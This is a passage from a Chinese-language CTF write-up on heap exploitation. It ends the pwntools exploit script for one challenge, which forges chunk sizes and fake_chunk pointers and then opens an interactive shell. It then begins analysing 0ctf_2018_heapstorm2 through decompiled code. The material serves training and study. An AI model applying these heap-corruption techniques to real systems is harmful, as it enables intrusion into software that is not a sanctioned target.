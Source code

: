 	#dbg()
	
	payload2 = p64(0)*4 + p64(0) + p64(0x4e1) #size
	payload2 += p64(0) + p64(fake_chunk+8)   
	payload2 += p64(0) + p64(fake_chunk-0x18-5)#mmap
	
	edit(8,payload2)
	
	#dbg()
	
	add(0x40)
	
	#dbg()
	
	payload = '\x00'*(0x10+0x30)
	edit(2,payload)
	
	#dbg()
	
	sla('Choice: ','666')
	s(p64(0)*6)
	itr()
### 0ctf_2018_heapstorm2
![在这里插入图片描述](https://img-blog.csdnimg.cn/13f92447a47b42a68e668fd3bb4f835f.png)
同样是保护全开，
#### main
实现四个功能，增删改查

	__int64 __fastcall main(__int64 a1, char **a2, char **a3)
	{
	  __int64 v4; // [rsp+8h] [rbp-8h]   	//v4=0x13370800
	
	  v4 = sub_BE6();
	
	  while ( 1 )
	  {
	    menu();
	    switch ( chioce(a1, a2) )
	    {
	      case 1LL:
	        a1 = v4;
	        add(v4);
	        break;
	      case 2LL:
	        a1 = v4;
	        up(v4);
	        break;
	      case 3LL:
	        a1 = v4;
	        delete(v4);
	        break;
	      case 4LL:
	        a1 = v4;
	        show(v4);
	        break;
	      case 5LL:
	        return 0LL;
	      default:
	        continue;
	    }
	  }
	}
主函数里有个sub_BE6()函数，其中禁用了fastbin，并且用mmap在0x13370000处分配了大小为0x1000的chunk，从/dev/urandom中读取了3个随机数到0x13370800处，还调用了两个异或函数，由后面可知，是对chunk的头指针和size进行了异或加密，返回0x13370800给v4，这里相当于有四个随机数，第三个和第四个随机数相同
